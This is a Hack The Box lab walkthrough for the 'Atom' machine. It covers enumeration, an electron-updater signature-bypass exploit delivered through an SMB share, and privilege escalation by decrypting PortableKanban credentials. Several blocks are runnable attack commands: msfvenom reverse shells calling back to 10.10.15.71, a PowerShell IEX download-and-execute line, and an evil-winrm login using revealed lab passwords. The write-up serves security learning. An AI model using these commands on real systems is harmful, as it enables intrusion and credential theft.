

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.237 atom.htb

**nmap scan:**
```bash
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
135/tcp  open  msrpc        Microsoft Windows RPC
443/tcp  open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6379/tcp open  redis        Redis key-value store
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows
```

* Windows version: `OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)`
* Nothing in ssl certificate.
* Radis require authAuthentication, [hacktricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

      ❯ redis-cli -h 10.10.10.237
      10.10.10.237:6379> info
      NOAUTH Authentication required.

* SMB allowed access without password

  

  Found a pdf file and some empty directories.
* There a file available for download on http server `/releases/heed_setup_v1.0.0.zip`

  

* zip archive contains a windows executable.

      ❯ file heedv1-Setup-1.0.0.exe
      heedv1-Setup-1.0.0.exe: PE32 executable (GUI) Intel 80386, for MS Windows, Nullsoft Installer self-extracting archive

* pdf file contains some information about this exe file.

  

pdf also talking about update.



And if we reverse the executable with `7z` in linux and find the `resources` folder under `$PLUGINSDIR`, which contains the  electron app source codes in `app.asar` file. We can decompress `app.asar` file with [`asar`](https://github.com/electron/asar) tool to get the application source javascript files.
```bash
❯ npx asar extract app.asar dest-dir
```



This application using vulnerable version of `electron-updater` package.

* Vulnerability found from [snyk VulnerabilityDB](https://snyk.io/vuln/SNYK-JS-ELECTRONUPDATER-561421)
* **electron-builder's Electron-Updater PoC blog from [blog.doyensec.com](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)**

# Foothold

## Electron Updater RCE

**Exploit surface:** The signature verification check performed by electron-builder is simply based on a string **comparison between the installed binary’s publisherName and the certificate’s Common Name attribute of the update binary**. During a software update, the application will request a file named **`latest.yml`** from the **update server**, which contains the definition of the new release - including the binary filename and hashes.

* our application is using smb share's client folder for new `latest.yml` and we have access to these "client" folders.

**Other part:** an attacker could **bypass the entire signature verification** by triggering a parse error in the script. This can be easily achieved by **using a filename containing a single quote (`'`) and then by recalculating the file hash to match the attacker-provided binary** (using `shasum -a 512 maliciousupdate.exe | cut -d " " -f1 | xxd -r -p | base64`).

* Found update process form  [electron docs](https://www.electron.build/auto-update#staged-rollouts)

**Exploit**

**Generate reverse shell with msfvenom**
```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.71 LPORT=4141 -f exe -o "rev'Shell.exe"
```

**generate sha512 bash encoded hash**
```bash
❯ sha512sum rev\'Shell.exe | cut -d " " -f1 | xxd -r -p | base64 -w 0
77b46759lH58s81l3tMaetP541XEe+XJ2V+IEPOC5dF27MjxROsm/JJMVR7tt2CN/hmVikE5d8Wa9VuxMAnFNw==
```

**configure latest.yml**
```yml
version: 1.0.1
path: http://10.10.15.71/rev'Shell.exe
sha512: 77b46759lH58s81l3tMaetP541XEe+XJ2V+IEPOC5dF27MjxROsm/JJMVR7tt2CN/hmVikE5d8Wa9VuxMAnFNw==
```

**upload `latest.yml` in the smb share's "client" folder.**




<details>
<summary><strong>msf shell</strong></summary>

Generate Reverse shell with msfvenom
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.71 LPORT=4141 -f psh -o msf_shell.ps1
```

Execute with powershell IEX
```bash
IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.71/msf_shell.ps1')
```

</details>
</br>

# Privesc

## Kanban credentials encryption flaw

* Only one user on the box "jason"

There is radis server running, get in the nmap scan, so finding radis server creds: `C:\Program Files\Redis\redis.windows-service.conf`


<!--kidvscat_yes_kidvscat-->

Found "Administrator" Encrypted Password from redis database, But don't find the encryption type.


<!--Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi-->

Running winpeas found user "jason" password but it is not working.



Enumerating user "jason" home folder find [PortableKanban](https://www.atlassian.com/agile/kanban) in `C:\Users\jason\Downloads\PortableKanban`.

from kanban config file found that radis is using by kanban.



that looking that encrypted password from config, they both looks same.

PortableKanBan stores credentials in an encrypted format and also found a script for decrypt this from [ExploitDB](https://www.exploit-db.com/exploits/49409).

```py
import base64
from des import * #python3 -m pip install des

def decode(hash):
	hash = base64.b64decode(hash.encode('utf-8'))
	key = DesKey(b"7ly6UznJ")
	return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

print(decode("Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi"))
```

Run the script give decrypted password
<!--
jason:kidvscat_electron_@123
administrator:kidvscat_admin_@123
-->

Checking if that password is working
```bash
$username = "domain\Administrator"
$password = "kidvscat_admin_@123" | ConvertTo-SecureString -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username,$password
$s = New-PSSession -Credential $Cred
Invoke-Command -Session $s -Scriptblock {whoami}
```



We can get the Administrator shell with `evil-winrm`

```bash
❯ evil-winrm -i 10.10.10.237 -u administrator -p 'kidvscat_admin_@123'
```



